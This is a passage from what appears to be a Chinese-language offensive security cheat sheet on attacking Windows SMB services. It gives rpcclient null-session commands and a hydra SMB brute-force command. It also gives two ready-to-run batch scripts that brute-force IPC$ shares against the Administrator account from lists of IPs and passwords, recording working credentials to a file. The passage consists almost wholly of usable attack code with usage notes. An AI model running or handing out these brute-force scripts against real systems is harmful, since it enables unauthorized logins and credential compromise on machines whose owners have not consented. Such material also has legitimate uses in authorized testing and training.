 - rpcclient
    ```bash
    rpcclient -U " " <victim_ip>
    rpcclient -U " " -N <victim_ip>
    ```

**暴力破解**

可以暴力破解来获得目标主机的 smb 访问。
```bash
hydra -L user.txt -P pass.txt 192.168.1.1 smb
```

- IPC 爆破

    ```
    ip.txt 放入要爆破的 IP
    pass.txt 放入爆破的密码
    默认爆破用户：Administrator
    爆破成功的结果，会在 bat 运行的当前目录生成 out.txt
    爆破进度的查询：type log.txt，完成后当前目录生成 end.txt
    ```

    非空连接爆破.bat
    ```bat
    @echo off
    cls
    echo Useage: %0 ip.txt pass.txt
    for /f %%t in (%1) do (
    FOR /F "eol=; tokens=1,2,3* delims=, " %%i in (%2) do (
    echo net use \\%%t\ipc$ "%%i" /user:"localhost\Administrator" >> log.txt
    net use \\%%t\ipc$ "%%i" /user:"localhost\Administrator"  >NUL 2>NUL
    IF NOT errorlevel 1 (
    echo %%i  t:%%t>> out.txt
    net use \\%%t\ipc$ /del
    )
    net use * /del /y >NUL 2>NUL
    )
    )
    echo end >> end.txt
    ```

    空连接爆破.bat
    ```bat
    @echo off
    cls
    echo Useage: %0 ip.txt
    for /f %%t in (%1) do (
    echo net use \\%%t\ipc$ "" /user:"localhost\Administrator" >> log.txt
    net use \\%%t\ipc$ "" /user:"localhost\Administrator"  >NUL 2>NUL
    IF NOT errorlevel 1 (
    echo success:%%t>> out.txt
    net use \\%%t\ipc$ /del
    )
    net use * /del /y >NUL 2>NUL
    )
    echo end >> end.txt
    ```

